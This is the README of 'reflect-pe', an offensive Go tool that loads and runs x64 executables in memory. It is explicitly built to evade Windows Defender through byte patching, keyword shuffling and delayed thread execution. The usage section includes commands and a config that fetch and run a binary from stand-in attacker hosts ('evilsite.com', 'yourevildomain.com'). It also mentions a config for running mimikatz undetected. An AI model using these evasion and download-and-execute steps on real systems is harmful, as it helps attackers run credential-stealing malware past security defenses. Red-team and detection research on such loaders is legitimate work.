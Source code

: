 # Reflect-pe
![Build](https://github.com/ayoul3/reflect-pe/workflows/Go/badge.svg)  

Reflectively load and execute an x64 Portable Executable in-memory. It does not bluntly allocate RWX memory all over the place. Each section gets its required set of permissions.   It also allows patching bytes on the fly to evade memory inspection (Windows Defender).  
Finally, it produces a self-contained executable so no ugly command lines to be inspected by Defender.  

**Supports x64 both unmanaged PE and managed PE (assemblies)**

## Usage  
1. [Prepare a Go environment](https://golang.org/dl/) to build the reflect-pe on Windows. You cannot cross compile it on a Linux/Unix machine because it uses Windows specific code.  

2. Prepare your `config.yml` file (see below)

3. Build the executable
```
git clone https://github.com/ayoul3/reflect-pe
cd reflect-pe
go build -v .
```
Run it and enjoy
```
reflect-pe.exe
reflect-pe.exe config_mimi.yml
reflect-pe.exe http://www.evilsite.com/config.yml
```

## Config
```
# BinaryPath can either be an HTTP url, a relative path or an absolute path.
BinaryPath: 'http://www.yourevildomain.com/file.exe'

# ReflectArgs is a string containing the arguments passed to your binary when executed in memory.
# For Unmanaged PE: First argument is the program's name. This parameter can be empty
# For managed PE: First argument is the real first argument

ReflectArgs: 'arg0 arg1 arg2'

# 3 options to load an unmanaged executable in memory:
# Wait: will call CreateThread, then wait 15 to 30 seconds before resuming the threat. This proved very effective against Windows Defender.
# <empty>: We do not wait between thread creation and execution
# Function: We overwrite the address of a Go method with the executable's entry point

ReflectMethod:  # wait, function or empty

# CLR runtime version. If the version specified is not found, the latest one will be taken. If it's empty it defaults to v2.  

CLRRuntime: v4

# 0: no logs, 1: Info logs, 2: Debug
LogLevel: 2

# Keywords to be replaced by a random shuffle. Both utf8 and unicode versions are replaced.
Keywords:
  - mimikatz
  - delpy
  - benjamin
  - delpy
```
Ps: config_mimi.yml contains the basic keywords to target to run a mimikatz without triggering Windows Defender

## Limitations
Reflect-pe only works for x64 dynamic executables on 64-bit intel machines.  

It's not stable when it comes to static binary for the good reason that hardcoded absolute addresses are difficult to find and translate to the new relocated address.
So it cannot load a go-binary for instance (also because the go runtime cannot be loaded twice inside the same process)

I did not try loading a DLL. There may be some small adjustments that are needed to make it work.


## Credit
* https://github.com/stephenfewer/ReflectiveDLLInjection  
* https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
* Huge thanks to https://github.com/ropnop/go-clr for 90% of the CLR loading in Go
